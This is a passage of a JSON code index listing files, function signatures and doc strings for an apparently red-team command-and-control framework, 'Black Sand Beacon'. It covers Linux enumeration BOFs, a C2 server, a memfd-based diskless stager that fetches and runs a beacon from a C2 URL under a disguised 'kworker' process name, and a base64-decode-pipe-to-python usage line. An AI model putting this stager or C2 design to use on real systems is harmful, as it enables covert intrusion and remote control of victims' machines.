BOFs MUST export a function with this exact signature: * * void go(char *args, int alen);"}, {"kind": "function", "line": 37, "name": "BeaconDataParse", "signature": "void BeaconDataParse(datap *parser, char *buffer, int size);"}, {"kind": "function", "line": 38, "name": "BeaconDataPtr", "signature": "char *BeaconDataPtr(datap *parser, int size);"}, {"kind": "function", "line": 39, "name": "BeaconDataInt", "signature": "int BeaconDataInt(datap *parser);"}, {"kind": "function", "line": 40, "name": "BeaconDataShort", "signature": "short BeaconDataShort(datap *parser);"}, {"kind": "function", "line": 41, "name": "BeaconDataLength", "signature": "int BeaconDataLength(datap *parser);"}, {"kind": "function", "line": 42, "name": "BeaconDataExtract", "signature": "char *BeaconDataExtract(datap *parser, int *size);"}, {"kind": "function", "line": 45, "name": "buffer", "signature": "* takes a raw byte buffer (len may be 0 for strlen-style strings * but the buffer must still be NUL-terminated). */ void BeaconPrintf(int type, const char *fmt, ...);"}, {"kind": "function", "line": 48, "name": "BeaconOutput", "signature": "void BeaconOutput(int type, const char *data, int len);"}, {"kind": "macro", "line": 17, "name": "BSB_BOF_BEACON_API_H", "signature": "#define BSB_BOF_BEACON_API_H"}, {"kind": "macro", "line": 24, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 25, "name": "CALLBACK_ERROR", "signature": "#define CALLBACK_ERROR"}, {"kind": "macro", "line": 26, "name": "CALLBACK_OUTPUT_OEM", "signature": "#define CALLBACK_OUTPUT_OEM"}]}, {"id": "bof/include/syscalls.h", "kind": "module", "label": "syscalls.h", "language": "h", "sha256": "9103c11c181d8119", "symbol_count": 38, "symbols": [{"kind": "function", "line": 49, "name": "syscall0", "signature": "static inline long syscall0(long n)"}, {"kind": "function", "line": 56, "name": "syscall1", "signature": "static inline long syscall1(long n, long a1)"}, {"kind": "function", "line": 63, "name": "syscall2", "signature": "static inline long syscall2(long n, long a1, long a2)"}, {"kind": "function", "line": 70, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"kind": "function", "line": 80, "name": "syscall4", "signature": "static inline long syscall4(long n, long a1, long a2, long a3, long a4)"}, {"doc": "} static inline long syscall4(long n, long a1, long a2, long a3, long a4) { long ret; register long r10 __asm__(\"r10\") = a4; __asm__ volatile(\"syscall\" : \"=a\"(ret) : \"a\"(n), \"D\"(a1), \"S\"(a2), \"d\"(a3), \"r\"(r10) : \"rcx\", \"r11\", \"memory\"); return ret; } /* strlen - libc is not linked.", "kind": "function", "line": 92, "name": "bsf_strlen", "signature": "static inline size_t bsf_strlen(const char *s)"}, {"doc": ": \"rcx\", \"r11\", \"memory\"); return ret; } /* strlen - libc is not linked. static inline size_t bsf_strlen(const char *s) { const char *p = s; while (*p) p++; return (size_t)(p - s); } /* strcmp - libc is not linked. Returns 0 on match.", "kind": "function", "line": 101, "name": "bsf_strcmp", "signature": "static inline int bsf_strcmp(const char *a, const char *b)"}, {"doc": "} /* strcmp - libc is not linked. Returns 0 on match. static inline int bsf_strcmp(const char *a, const char *b) { while (*a && (*a == *b)) { a++; b++; } return *(const unsigned char *)a - *(const unsigned char *)b; } /* memcmp - libc is not linked.", "kind": "function", "line": 112, "name": "bsf_memcmp", "signature": "static inline int bsf_memcmp(const void *p1, const void *p2, size_t n)"}, {"kind": "macro", "line": 12, "name": "BSB_BOF_SYSCALLS_H", "signature": "#define BSB_BOF_SYSCALLS_H"}, {"kind": "macro", "line": 17, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 18, "name": "SYS_write", "signature": "#define SYS_write"}, {"kind": "macro", "line": 19, "name": "SYS_open", "signature": "#define SYS_open"}, {"kind": "macro", "line": 20, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 21, "name": "SYS_stat", "signature": "#define SYS_stat"}, {"kind": "macro", "line": 22, "name": "SYS_fstat", "signature": "#define SYS_fstat"}, {"kind": "macro", "line": 23, "name": "SYS_lseek", "signature": "#define SYS_lseek"}, {"kind": "macro", "line": 24, "name": "SYS_mmap", "signature": "#define SYS_mmap"}, {"kind": "macro", "line": 25, "name": "SYS_munmap", "signature": "#define SYS_munmap"}, {"kind": "macro", "line": 26, "name": "SYS_brk", "signature": "#define SYS_brk"}, {"kind": "macro", "line": 27, "name": "SYS_ioctl", "signature": "#define SYS_ioctl"}, {"kind": "macro", "line": 28, "name": "SYS_access", "signature": "#define SYS_access"}, {"kind": "macro", "line": 29, "name": "SYS_pipe", "signature": "#define SYS_pipe"}, {"kind": "macro", "line": 30, "name": "SYS_dup2", "signature": "#define SYS_dup2"}, {"kind": "macro", "line": 31, "name": "SYS_fork", "signature": "#define SYS_fork"}, {"kind": "macro", "line": 32, "name": "SYS_execve", "signature": "#define SYS_execve"}, {"kind": "macro", "line": 33, "name": "SYS_exit", "signature": "#define SYS_exit"}, {"kind": "macro", "line": 34, "name": "SYS_wait4", "signature": "#define SYS_wait4"}, {"kind": "macro", "line": 35, "name": "SYS_getuid", "signature": "#define SYS_getuid"}, {"kind": "macro", "line": 36, "name": "SYS_getgid", "signature": "#define SYS_getgid"}, {"kind": "macro", "line": 37, "name": "SYS_geteuid", "signature": "#define SYS_geteuid"}, {"kind": "macro", "line": 38, "name": "SYS_getegid", "signature": "#define SYS_getegid"}, {"kind": "macro", "line": 39, "name": "SYS_getpid", "signature": "#define SYS_getpid"}, {"kind": "macro", "line": 40, "name": "SYS_getppid", "signature": "#define SYS_getppid"}, {"kind": "macro", "line": 41, "name": "SYS_getpwnam_r", "signature": "#define SYS_getpwnam_r"}, {"kind": "macro", "line": 42, "name": "SYS_getpwuid_r", "signature": "#define SYS_getpwuid_r"}, {"kind": "macro", "line": 43, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 44, "name": "SYS_clone", "signature": "#define SYS_clone"}, {"kind": "macro", "line": 47, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"id": "bof/is_sudo/bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "3857a4b62f225cb7", "symbol_count": 2, "symbols": [{"kind": "function", "line": 15, "name": "user_in_group", "signature": "static int user_in_group(const char *group, const char *username, char *filebuf, long filesize)"}, {"kind": "function", "line": 74, "name": "go", "signature": "void go(char *args, int alen)"}]}, {"doc": "is_sudo.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 is_sudo.c -o is_sudo.x64.o  Tipos", "id": "bof/is_sudo/is_sudo.c", "kind": "module", "label": "is_sudo.c", "language": "c", "sha256": "638849308a70fef0", "symbol_count": 17, "symbols": [{"doc": "Tipos", "kind": "type_alias", "line": 7, "name": "size_t", "signature": "typedef unsigned long size_t;"}, {"kind": "type_alias", "line": 8, "name": "ssize_t", "signature": "typedef long ssize_t;"}, {"doc": "Wrappers", "kind": "function", "line": 23, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"kind": "function", "line": 33, "name": "syscall1", "signature": "static inline long syscall1(long n, long a1)"}, {"doc": "strcmp mínimo (necesario para comparar strings)", "kind": "function", "line": 41, "name": "strcmp", "signature": "static int strcmp(const char *s1, const char *s2)"}, {"doc": "Obtener username desde /etc/passwd (sin libc)", "kind": "function", "line": 52, "name": "get_username_from_uid", "signature": "static int get_username_from_uid(long uid, char *buf, int buf_size)"}, {"kind": "function", "line": 122, "name": "go", "signature": "void go(char *args, int alen)"}, {"doc": "Símbolos del beacon", "kind": "function", "line": 11, "name": "BeaconPrintf", "signature": "extern void BeaconPrintf(int, const char *, ...);"}, {"kind": "function", "line": 12, "name": "BeaconOutput", "signature": "extern void BeaconOutput(int, const char *, int);"}, {"kind": "macro", "line": 3, "name": "NULL", "signature": "#define NULL"}, {"kind": "macro", "line": 4, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 15, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 16, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 17, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 18, "name": "SYS_getuid", "signature": "#define SYS_getuid"}, {"kind": "macro", "line": 19, "name": "SYS_getpwuid_r", "signature": "#define SYS_getpwuid_r"}, {"kind": "macro", "line": 20, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"id": "bof/suid_enum/bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "0ea5224827f847ef", "symbol_count": 15, "symbols": [{"doc": "#include \"beacon_api.h\" #include \"syscalls.h\" /* getdents64 syscall number (x86_64) and the dirent layout. #define SYS_getdents64 217 #define SYS_lstat 6 /* d_type values we care about (from <dirent.h>). #define DT_UNKNOWN 0 #define DT_DIR 4 #define DT_LNK 10 /* Linux stat struct (matches the kernel ABI for x86_64).", "kind": "struct", "line": 35, "name": "linux_stat"}, {"doc": "getdents64 entry layout (kernel ABI). The d_reclen field tells * us the actual record size since names are variable length.", "kind": "struct", "line": 59, "name": "linux_dirent64"}, {"kind": "function", "line": 78, "name": "flush_output", "signature": "static void flush_output(void)"}, {"kind": "function", "line": 87, "name": "emit", "signature": "static void emit(const char *s)"}, {"doc": "Format `mode` (a st_mode value) into a 10-char permission * string, like ls -l does.", "kind": "function", "line": 114, "name": "format_mode", "signature": "static void format_mode(unsigned int mode, char *out)"}, {"kind": "function", "line": 137, "name": "path_reset", "signature": "static void path_reset(const char *root)"}, {"kind": "function", "line": 148, "name": "path_append", "signature": "static void path_append(const char *name)"}, {"kind": "function", "line": 166, "name": "path_trim_to", "signature": "static void path_trim_to(int len)"}, {"doc": "Walk one directory, recursing into subdirectories. `depth` * bounds the recursion so a symlink loop cannot blow the stack.", "kind": "function", "line": 178, "name": "walk", "signature": "static void walk(int depth)"}, {"kind": "function", "line": 298, "name": "go", "signature": "void go(char *args, int alen)"}, {"kind": "macro", "line": 26, "name": "SYS_getdents64", "signature": "#define SYS_getdents64"}, {"kind": "macro", "line": 27, "name": "SYS_lstat", "signature": "#define SYS_lstat"}, {"kind": "macro", "line": 30, "name": "DT_UNKNOWN", "signature": "#define DT_UNKNOWN"}, {"kind": "macro", "line": 31, "name": "DT_DIR", "signature": "#define DT_DIR"}, {"kind": "macro", "line": 32, "name": "DT_LNK", "signature": "#define DT_LNK"}]}, {"id": "bof/userenum/bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "6eb630fa7185effe", "symbol_count": 2, "symbols": [{"kind": "function", "line": 67, "name": "user_in_member_list", "signature": "static int user_in_member_list(const char *username, const char *members)"}, {"kind": "function", "line": 89, "name": "go", "signature": "void go(char *args, int alen)"}]}, {"doc": "is_sudo.c — LazyOwn RedTeam BOF (Linux/x64) gcc -c -nostdlib -fPIC -m64 -O2 userenum.c -o userenum.x64.o  Tipos", "id": "bof/userenum/userenum.c", "kind": "module", "label": "userenum.c", "language": "c", "sha256": "5778d5b4f7aa4695", "symbol_count": 13, "symbols": [{"doc": "Tipos", "kind": "type_alias", "line": 7, "name": "size_t", "signature": "typedef unsigned long size_t;"}, {"kind": "type_alias", "line": 8, "name": "ssize_t", "signature": "typedef long ssize_t;"}, {"doc": "Wrappers", "kind": "function", "line": 21, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"doc": "strcmp mínimo (necesario para comparar strings)", "kind": "function", "line": 32, "name": "strcmp", "signature": "static int strcmp(const char *s1, const char *s2)"}, {"kind": "function", "line": 42, "name": "go", "signature": "void go(char *args, int alen)"}, {"doc": "Símbolos del beacon", "kind": "function", "line": 11, "name": "BeaconPrintf", "signature": "extern void BeaconPrintf(int, const char *, ...);"}, {"kind": "function", "line": 12, "name": "BeaconOutput", "signature": "extern void BeaconOutput(int, const char *, int);"}, {"kind": "macro", "line": 3, "name": "NULL", "signature": "#define NULL"}, {"kind": "macro", "line": 4, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 15, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 16, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 17, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 18, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"id": "bof/whoami/bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "e609fb3c1c2957a3", "symbol_count": 1, "symbols": [{"kind": "function", "line": 19, "name": "go", "signature": "void go(char *args, int alen)"}]}, {"doc": "whoami.c — LazyOwn RedTeam BOF (Linux/x64)  Tipos", "id": "bof/whoami/whoami.c", "kind": "module", "label": "whoami.c", "language": "c", "sha256": "18a7e31fb50290aa", "symbol_count": 14, "symbols": [{"doc": "Tipos", "kind": "type_alias", "line": 6, "name": "size_t", "signature": "typedef unsigned long size_t;"}, {"kind": "type_alias", "line": 7, "name": "ssize_t", "signature": "typedef long ssize_t;"}, {"doc": "Syscall wrappers", "kind": "function", "line": 21, "name": "syscall3", "signature": "static inline long syscall3(long n, long a1, long a2, long a3)"}, {"kind": "function", "line": 31, "name": "syscall1", "signature": "static inline long syscall1(long n, long a1)"}, {"kind": "function", "line": 38, "name": "go", "signature": "void go(char *args, int alen)"}, {"doc": "Símbolos del beacon", "kind": "function", "line": 10, "name": "BeaconPrintf", "signature": "extern void BeaconPrintf(int, const char *, ...);"}, {"kind": "function", "line": 11, "name": "BeaconOutput", "signature": "extern void BeaconOutput(int, const char *, int);"}, {"kind": "macro", "line": 2, "name": "NULL", "signature": "#define NULL"}, {"kind": "macro", "line": 3, "name": "CALLBACK_OUTPUT", "signature": "#define CALLBACK_OUTPUT"}, {"kind": "macro", "line": 14, "name": "SYS_openat", "signature": "#define SYS_openat"}, {"kind": "macro", "line": 15, "name": "SYS_read", "signature": "#define SYS_read"}, {"kind": "macro", "line": 16, "name": "SYS_close", "signature": "#define SYS_close"}, {"kind": "macro", "line": 17, "name": "SYS_getuid", "signature": "#define SYS_getuid"}, {"kind": "macro", "line": 18, "name": "AT_FDCWD", "signature": "#define AT_FDCWD"}]}, {"doc": "bof.c", "id": "bof.c", "kind": "module", "label": "bof.c", "language": "c", "sha256": "cd4f89027194f253", "symbol_count": 1, "symbols": [{"kind": "function", "line": 4, "name": "__attribute__", "signature": "__attribute__((used)) __attribute__((visibility(\"default\"))) void go(char *args, int alen)"}]}, {"id": "c2/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "eb5ebce0ca10ba72", "symbol_count": 0, "symbols": []}, {"doc": "Black Sand Beacon C2 Server  Gopher-style command and control server for Black Sand Beacon agents. Handles command queuing, result collection, and BOF distribution.  Security features: - Thread pool to prevent resource exhaustion - HMAC-based message authentication (optional) - Configurable TLS verification - Centralized JSON configuration  Usage: python3 c2/server.py BSB_CONFIG=/path/to/config.json python3 c2/server.py", "id": "c2/server.py", "kind": "module", "label": "server.py", "language": "py", "sha256": "b2fa99b14a8a0b23", "symbol_count": 32, "symbols": [{"doc": "Pick a free TCP port in the ephemeral range (best-effort bind probe).", "kind": "function", "line": 73, "name": "_random_free_port", "signature": "def _random_free_port()"}, {"doc": "Load configuration from JSON file or use defaults.\n\nAnything not provided (config.json or environment) is generated at\nrandom *per server run*: port, master key, staging token and client\nid. Generated values are recorded in cfg[\"generated\"] so main() can\nprint them, and they always win over the on-disk file when the\nconfig is served through the staging endpoint.", "kind": "function", "line": 86, "name": "load_runtime_config", "signature": "def load_runtime_config()"}, {"doc": "Compute HMAC-SHA256 for message authentication.", "kind": "function", "line": 210, "name": "compute_hmac", "signature": "def compute_hmac(key, data)"}, {"doc": "Verify HMAC-SHA256 signature.", "kind": "function", "line": 215, "name": "verify_hmac", "signature": "def verify_hmac(key, data, signature)"}, {"doc": "Encrypt data with AES-256-CFB and optional HMAC (legacy format without replay protection).", "kind": "function", "line": 221, "name": "encrypt_data", "signature": "def encrypt_data(data, key, hmac_key, use_hmac)"}, {"doc": "Encrypt data with AES-256-CFB and replay protection (counter + timestamp).", "kind": "function", "line": 244, "name": "encrypt_data_replay", "signature": "def encrypt_data_replay(data, key, counter, timestamp, hmac_key, use_hmac)"}, {"doc": "Decrypt AES-256-CFB data with optional HMAC verification.", "kind": "function", "line": 278, "name": "decrypt_data", "signature": "def decrypt_data(b64_data, key, hmac_key, use_hmac)"}, {"doc": "Decrypt AES-256-CFB data with replay protection (counter + timestamp).\n\nReturns (decrypted_data, counter, timestamp) on success, None on failure.", "kind": "function", "line": 301, "name": "decrypt_data_replay", "signature": "def decrypt_data_replay(b64_data, key, hmac_key, use_hmac, replay_window_seconds, last_seen_counter, client_id)"}, {"doc": "RFC 5869 HKDF extract+expand. Pure stdlib so the server and the\nstager payload implement byte-identical derivation.", "kind": "function", "line": 398, "name": "hkdf_sha256", "signature": "def hkdf_sha256(ikm, salt, info, length)"}, {"doc": "Derive the three staging XOR layers from the token.", "kind": "function", "line": 410, "name": "stage_keys", "signature": "def stage_keys(token)"}, {"doc": "Apply one XOR layer with a repeating key.", "kind": "function", "line": 416, "name": "xor_layer", "signature": "def xor_layer(data, key)"}, {"doc": "Pack payload as base64 using token-derived XOR keys.", "kind": "function", "line": 422, "name": "stage_encode", "signature": "def stage_encode(payload, token)"}, {"doc": "Inverse of stage_encode (used by tests and the stager parity check).", "kind": "function", "line": 430, "name": "stage_decode", "signature": "def stage_decode(body, token)"}, {"doc": "Constant-time token check; fail closed when no token configured.", "kind": "function", "line": 441, "name": "stage_token_ok", "signature": "def stage_token_ok(state, token)"}, {"doc": "Build the beacon config JSON served by /stage/config.\n\nRuntime values (random-generated key/port/client id) always win over\nthe on-disk file, so a fileless beacon agrees with *this* server\nrun. The server-only section is stripped and derived key bytes are\ndropped (not JSON-serializable).", "kind": "function", "line": 449, "name": "build_stage_config", "signature": "def build_stage_config(state)"}, {"doc": "Serve the beacon ELF or the config.json through the staging contract.", "kind": "function", "line": 481, "name": "handle_stage", "signature": "def handle_stage(state, kind, token)"}, {"doc": "Build the copy-paste stager one-liner for the current config.\n\nThe stager payload (c2/stage_payload.py) reads URL and token from\nenvironment variables, so its base64 blob is constant and the\none-liner is a plain pipe: decode payload, run it with env vars set.", "kind": "function", "line": 512, "name": "build_stage_oneliner", "signature": "def build_stage_oneliner(cfg)"}, {"doc": "Copy text to the X11/Wayland clipboard; False if no tool exists.", "kind": "function", "line": 529, "name": "copy_to_clipboard", "signature": "def copy_to_clipboard(text)"}, {"doc": "Mutable state shared between request handlers.", "kind": "class", "line": 552, "name": "C2State", "signature": "class C2State"}, {"doc": "Dispatch beacon's polling GET request.", "kind": "function", "line": 568, "name": "handle_get_command", "signature": "def handle_get_command(state, selector)"}, {"doc": "Process beacon result report.", "kind": "function", "line": 592, "name": "handle_report", "signature": "def handle_report(state, b64_payload)"}, {"doc": "Serve BOF file from upload directory with path traversal protection.", "kind": "function", "line": 682, "name": "handle_bof", "signature": "def handle_bof(state, name)"}, {"doc": "Route request to appropriate handler.\n\nAccepts both the HTTP/1.1 request form (the beacon uses libcurl)\nand the bare Gopher-style selector. Payloads carried in an HTTP\npath are percent-decoded, since base64 uses '+', '/' and '='\nwhich are not all legal in a request line.", "kind": "function", "line": 720, "name": "handle_request", "signature": "def handle_request(state, selector)"}, {"doc": "True if `line` is an HTTP request line (\"GET /path HTTP/1.1\").", "kind": "function", "line": 783, "name": "_is_http_line", "signature": "def _is_http_line(line)"}, {"doc": "True if the first line looks like an HTTP request line.\n\nChecked on the *complete* request only. A single recv() on a\nlong request line can return a fragment that has not reached\n\"HTTP/1.1\" yet, so the caller must read to the header terminator\nbefore asking.", "kind": "function", "line": 789, "name": "_is_http_request", "signature": "def _is_http_request(raw)"}, {"doc": "Read one full request.\n\nHTTP is terminated by CRLFCRLF. A legacy Gopher selector is a\nsingle CRLF-terminated line with no header terminator, so a\nfirst line that is already complete and is not an HTTP request\nline ends the read too.", "kind": "function", "line": 800, "name": "_read_request", "signature": "def _read_request(conn)"}, {"kind": "function", "line": 848, "name": "_http_response", "signature": "def _http_response(body, status)"}, {"doc": "Handle individual client connection.", "kind": "function", "line": 860, "name": "serve_client", "signature": "def serve_client(state, conn, addr)"}, {"doc": "Bind and accept loop. Blocks until interrupted.", "kind": "function", "line": 890, "name": "serve", "signature": "def serve(cfg, state)"}, {"doc": "Interactive command injection REPL.", "kind": "function", "line": 932, "name": "command_injector", "signature": "def command_injector(state)"}, {"doc": "Start C2 server.", "kind": "function", "line": 955, "name": "main", "signature": "def main()"}, {"kind": "method", "line": 555, "name": "__init__", "signature": "def __init__(self, cfg)"}]}, {"doc": "Black Sand Beacon diskless stager (Stage-0 one-liner).  Fetches the packed beacon ELF + config from the C2 staging endpoints and execs the beacon from an anonymous memfd. Never touches disk.  Environment: BSB_STAGE_URL          e.g. https://c2.example:7070 BSB_STAGE_TOKEN        must match server.stage_token in config.json BSB_STAGE_ARGV0        optional argv[0] disguise (default kworker/u8:2) BSB_STAGE_INSECURE_TLS set to 1 to skip TLS verification (lab only)  Usage: bash stage_oneliner.sh bash stage_oneliner.sh --print   # print the copy-paste one-liner", "id": "c2/stage_oneliner.sh", "kind": "module", "label": "stage_oneliner.sh", "language": "sh", "sha256": "8218802590311c88", "symbol_count": 0, "symbols": []}, {"doc": "Black Sand Beacon diskless stager.  Fetches the token-packed beacon ELF and config.json from the C2 staging endpoints, decodes them in RAM, and executes the beacon from an anonymous memfd. Nothing is ever written to disk.  Packing is three XOR layers whose keys are derived from the staging token via HKDF-SHA256 (salt \"blacksandbeacon-stage-v1\") — byte-identical to the server's derivation in c2/server.py. No key material on the wire.  Environment: BSB_STAGE_URL          base C2 URL (e.g. https://c2.example:7070) BSB_STAGE_TOKEN        staging token (same as server.stage_token) BSB_STAGE_ARGV0        argv[0] for the beacon (default \"kworker/u8:2\") BSB_STAGE_INSECURE_TLS set to 1 to skip TLS verification (lab only)  Usage: python3 stage_payload.py echo <b64> | base64 -d | BSB_STAGE_URL=... BSB_STAGE_TOKEN=... python3 -", "id": "c2/stage_payload.py", "kind": "module", "label": "stage_payload.py", "language": "py", "sha256": "4d18bf03459a8c2a", "symbol_count": 3, "symbols": [{"doc": "RFC 5869 HKDF extract+expand (stdlib only, mirrors c2/server.py).", "kind": "function", "line": 37, "name": "hkdf_sha256", "signature": "def hkdf_sha256(ikm, salt, info, length)"}, {"kind": "function", "line": 48, "name": "_fetch_and_decode", "signature": "def _fetch_and_decode(url, token, path, tls_ctx)"}, {"kind": "function", "line": 67, "name": "main", "signature": "def main()"}]}, {"id": "cJSON.c", "kind": "module", "label": "cJSON.c", "language": "c", "sha256": "46a4073985c79a58", "symbol_count": 125, "symbols": [{"kind": "struct", "line": 158, "name": "internal_hooks"}, {"kind": "struct", "line": 89, "name": "error"}, {"kind": "struct", "line": 292, "name": "parse_buffer"}, {"kind": "struct", "line": 485, "name": "printbuffer"}, {"kind": "function", "line": 96, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(const char *) cJSON_GetErrorPtr(void)"}, {"kind": "function", "line": 101, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(char *) cJSON_GetStringValue(const cJSON *const item)"}, {"kind": "function", "line": 111, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(double) cJSON_GetNumberValue(const cJSON *const item)"}, {"kind": "function", "line": 126, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(const char *) cJSON_Version(void)"}, {"doc": "/* This is a safeguard to prevent copy-pasters from using incompatible C and header files #if (CJSON_VERSION_MAJOR != 1) || (CJSON_VERSION_MINOR != 7) || (CJSON_VERSION_PATCH != 18) #error cJSON.h and cJSON.c have different versions. Make sure that both have the same. #endif CJSON_PUBLIC(const char *) cJSON_Version(void) { static char version[15]; sprintf(version, \"%i.%i.%i\", CJSON_VERSION_MAJOR, CJSON_VERSION_MINOR, CJSON_VERSION_PATCH); return version; } /* Case insensitive string comparison, doesn't consider two NULL pointers equal though", "kind": "function", "line": 135, "name": "case_insensitive_strcmp", "signature": "static int case_insensitive_strcmp(const unsigned char *string1, const unsigned char *string2)"}, {"doc": "} return tolower(*string1) - tolower(*string2); } typedef struct internal_hooks { void *(CJSON_CDECL *allocate)(size_t size); void(CJSON_CDECL *deallocate)(void *pointer); void *(CJSON_CDECL *reallocate)(void *pointer, size_t size); } internal_hooks; #if defined(_MSC_VER) /* work around MSVC error C2322: '...' address of dllimport '...' is not static", "kind": "function", "line": 167, "name": "internal_malloc", "signature": "static void *CJSON_CDECL internal_malloc(size_t size)"}, {"kind": "function", "line": 171, "name": "internal_free", "signature": "static void CJSON_CDECL internal_free(void *pointer)"}, {"kind": "function", "line": 175, "name": "internal_realloc", "signature": "static void *CJSON_CDECL internal_realloc(void *pointer, size_t size)"}, {"kind": "function", "line": 190, "name": "cJSON_strdup", "signature": "static unsigned char *cJSON_strdup(const unsigned char *string, const internal_hooks *const hooks)"}, {"kind": "function", "line": 211, "name": "CJSON_PUBLIC", "signature": "CJSON_PUBLIC(void) cJSON_InitHooks(cJSON_Hooks *hooks)"}, {"doc": "if (hooks->free_fn != NULL) { global_hooks.deallocate = hooks->free_fn; } /* use realloc only if both free and malloc are used global_hooks.reallocate = NULL; if ((global_hooks.allocate == malloc) && (global_hooks.deallocate == free)) { global_hooks.reallocate = realloc; } } /* Internal constructor.", "kind": "function", "line": 243, "name": "cJSON_New_Item", "signature": "static cJSON *cJSON_New_Item(const internal_hooks *const hooks)"}, {"doc": "item->valuestring = NULL; } if (!(item->type & cJSON_StringIsConst) && (item->string != NULL)) { global_hooks.deallocate(item->string); item->string = NULL; } global_hooks.deallocate(item); item = next; } } /* get the decimal point character of the current locale", "kind": "function", "line": 282, "name": "get_decimal_point", "signature": "static unsigned char get_decimal_point(void)"}, {"doc": "size_t depth; /* How deeply nested (in arrays/objects) is the input at the current offset. internal_hooks hooks; } parse_buffer; /* check if the given size is left to read in a given parse buffer (starting with 1) #define can_read(buffer, size) ((buffer != NULL) && (((buffer)->offset + size) <= (buffer)->length)) /* check if the buffer can be accessed at the given index (starting with 0) #define can_access_at_index(buffer, index)                                                         \\ ((buffer != NULL) && (((buffer)->offset + index) < (buffer)->length)) #define cannot_access_at_index(buffer, index) (!can_access_at_index(buffer, index)) /* get a pointer to the buffer at the position #define buffer_at_offset(buffer) ((buffer)->content + (buffer)->offset) /* Parse the input text to generate a number, and populate the result into item.", "kind": "function", "line": 311, "name": "parse_number", "signature": "static cJSON_bool parse_number(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "} typedef struct { unsigned char *buffer; size_t length; size_t offset; size_t depth; /* current nesting depth (for formatted printing) cJSON_bool noalloc; cJSON_bool format; /* is this print a formatted print internal_hooks hooks; } printbuffer; /* realloc printbuffer if necessary to have at least \"needed\" bytes more", "kind": "function", "line": 497, "name": "ensure", "signature": "static unsigned char *ensure(printbuffer *const p, size_t needed)"}, {"doc": "p->buffer = NULL; return NULL; } memcpy(newbuffer, p->buffer, p->offset + 1); p->hooks.deallocate(p->buffer); } p->length = newsize; p->buffer = newbuffer; return newbuffer + p->offset; } /* calculate the new length of the string in a printbuffer and update the offset", "kind": "function", "line": 583, "name": "update_offset", "signature": "static void update_offset(printbuffer *const buffer)"}, {"doc": "/* calculate the new length of the string in a printbuffer and update the offset static void update_offset(printbuffer *const buffer) { const unsigned char *buffer_pointer = NULL; if ((buffer == NULL) || (buffer->buffer == NULL)) { return; } buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables", "kind": "function", "line": 596, "name": "compare_double", "signature": "static cJSON_bool compare_double(double a, double b)"}, {"doc": "} buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables static cJSON_bool compare_double(double a, double b) { double maxVal = fabs(a) > fabs(b) ? fabs(a) : fabs(b); return (fabs(a - b) <= maxVal * DBL_EPSILON); } /* Render the number nicely from the given item into a string.", "kind": "function", "line": 603, "name": "print_number", "signature": "static cJSON_bool print_number(const cJSON *const item, printbuffer *const output_buffer)"}, {"doc": "output_pointer[i] = '.'; continue; } output_pointer[i] = number_buffer[i]; } output_pointer[i] = '\\0'; output_buffer->offset += (size_t)length; return true; } /* parse 4 digit hexadecimal number", "kind": "function", "line": 673, "name": "parse_hex4", "signature": "static unsigned parse_hex4(const unsigned char *const input)"}, {"doc": "converts a UTF-16 literal to UTF-8 * A literal can be one or two sequences of the form \\uXXXX", "kind": "function", "line": 710, "name": "utf16_literal_to_utf8", "signature": "static unsigned char utf16_literal_to_utf8(const unsigned char *const input_pointer,\n            ..."}, {"doc": "else { (*output_pointer)[0] = (unsigned char)(codepoint & 0x7F); } output_pointer += utf8_length; return sequence_length; fail: return 0; } /* Parse the input text into an unescaped cinput, and populate item.", "kind": "function", "line": 832, "name": "parse_string", "signature": "static cJSON_bool parse_string(cJSON *const item, parse_buffer *const input_buffer)"}, {"doc": "{ input_buffer->hooks.deallocate(output); output = NULL; } if (input_pointer != NULL) { input_buffer->offset = (size_t)(input_pointer - input_buffer->content); } return false; } /* Render the cstring provided to an escaped version that can be printed.", "kind": "function", "line": 964, "name": "print_string_ptr", "signature": "static cJSON_bool print_string_ptr(const unsigned char *const input,\n                            ..."}, {"doc": "/* escape and print as unicode codepoint sprintf((char *)output_pointer, \"u%04x\", *input_pointer); output_pointer += 4; break; } } } output[output_length + 1] = '\"'; output[output_length + 2] = '\\0'; return true; } /* Invoke print_string_ptr (which is useful) on an item.", "kind": "function", "line": 1087, "name": "print_string", "signature": "static cJSON_bool print_string(const cJSON *const item, printbuffer *const p)"}, {"doc": "static cJSON_bool print_string(const cJSON *const item, printbuffer *const p) { return print_string_ptr((unsigned char 